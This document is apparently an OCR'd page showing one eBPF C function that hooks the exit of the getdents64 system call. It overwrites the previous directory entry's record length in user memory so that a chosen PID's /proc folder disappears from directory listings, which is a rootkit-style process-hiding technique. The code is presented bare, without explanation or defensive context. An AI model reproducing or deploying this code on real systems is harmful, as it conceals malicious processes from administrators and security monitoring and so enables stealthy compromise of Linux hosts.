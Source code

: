 ```c
SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_patch(struct trace_event_raw_sys_exit *ctx)
{
    // Only patch if we've already checked and found our pid's folder to hide
    size_t pid_tgid = bpf_get_current_pid_tgid();
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_to_patch, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }

    // Unlink target, by reading in previous linux_dirent64 struct,
    // and setting it's d_reclen to cover itself and our target.
    // This will make the program skip over our folder.
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp_previous = (struct linux_dirent64 *)buff_addr;
    short unsigned int d_reclen_previous = 0;
    bpf_probe_read_user(&d_reclen_previous, sizeof(d_reclen_previous), &dirp_previous->d_reclen);

    struct linux_dirent64 *dirp = (struct linux_dirent64 *)(buff_addr+d_reclen_previous);
    short unsigned int d_reclen = 0;
    bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);

    // Debug print
    char filename[MAX_PID_LEN];
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp_previous->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename previous %s\n", filename);
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename next one %s\n", filename);

    // Attempt to overwrite
    short unsigned int d_reclen_new = d_reclen_previous + d_reclen;
    long ret = bpf_probe_write_user(&dirp_previous->d_reclen, &d_reclen_new, sizeof(d_reclen_new));

    // Send an event
    struct event *e;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e) {
        e->success = (ret == 0);
        e->pid = (pid_tgid >> 32);
        bpf_get_current_comm(&e->comm, sizeof(e->comm));
        bpf_ringbuf_submit(e, 0);
    }

    bpf_map_delete_elem(&map_to_patch, &pid_tgid);
    return 0;
}

```
